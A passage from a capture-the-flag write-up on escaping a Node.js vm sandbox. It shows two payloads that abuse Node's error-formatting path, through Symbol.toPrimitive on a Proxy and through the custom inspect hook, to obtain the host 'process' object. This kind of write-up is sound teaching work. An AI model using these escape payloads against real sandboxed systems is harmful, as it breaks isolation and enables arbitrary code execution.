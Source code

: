 And finally in the [handler](https://github.com/nodejs/node/blob/main/lib/internal/errors.js#L1208) for `ERR_INVALID_ARG_TYPE`, which calls [determineSpecificType](https://github.com/nodejs/node/blob/main/lib/internal/errors.js#L877), we find something interesting - code that either formats our input's constructor's name into a string or runs the `inspect` code on our input:
```js
if (typeof value === 'object') {
  if (value.constructor?.name) {
    return `an instance of ${value.constructor.name}`;
  }
  return `${lazyInternalUtilInspect().inspect(value, { depth: -1 })}`;
}
```

Finally, we have some code that we can abuse to leak obejcts! All the solution code below needs to be wrapped in a function call like so:
```js
function(){
    <code>
}()
```

### Abusing the name being formatted
This is the intended solution. One may know that formatting a value in JS into a template calls `Symbol.toPrimitive` if it exists. Providing a `constructor.name` value that has a `Symbol.toPrimitive` key allows us to trap a function call, and the third argument of the `apply` handler is an Array that comes from outside the context!

```js
let a = function() {};
let handler = {
    apply(a, b, c) {
        let process = c.constructor.constructor('return process')();
        // See later section from how to leak flag
    }
}
a = new Proxy(a, handler);
a = {constructor: {name: {[Symbol.toPrimitive]: a}}}
return a;
```

### Abusing `inspect`
I used this solution. It turns out objects can [define their own special behaviour](https://nodejs.org/api/util.html#custom-inspection-functions-on-objects) when being `inspect`-ed by defining a Symbol attribute with value `nodejs.util.inspect.custom`. This is called with the `inspect` function itself as a parameter! We can use its constructor to escape.
(If anyone is curious, the options parameter has a null prototype.)

```js
const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');
let a = {
    [customInspectSymbol](a, b, c) {
        let process = c.constructor.constructor('return process')();
        // See later section from how to leak flag
    }
}
a.constructor = null; // we need to pass the constructor.name check
a = {key: a};
return a;
```

